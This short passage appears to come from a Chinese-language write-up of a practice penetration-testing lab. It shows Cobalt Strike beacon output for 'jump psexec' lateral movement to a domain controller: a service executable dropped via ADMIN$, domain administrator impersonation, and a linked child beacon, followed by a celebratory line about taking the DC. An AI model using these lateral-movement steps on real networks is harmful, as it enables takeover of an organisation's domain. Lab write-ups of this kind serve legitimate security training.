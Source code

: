     ![image.png](image%2034.png)
    
    ```python
    beacon> jump psexec DC SMB-1
    [*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\test) on DC via Service Control Manager (\\DC\ADMIN$\eb3da6e.exe)
    [+] host called home, sent: 313378 bytes
    [+] Impersonated DE1AY.COM\administrator (netonly)
    [+] received output:
    Started service eb3da6e on DC
    [+] established link to child beacon: 10.10.10.10
    ```
    
    上线成功！！拿下DC
    
    ![image.png](image%2035.png)
    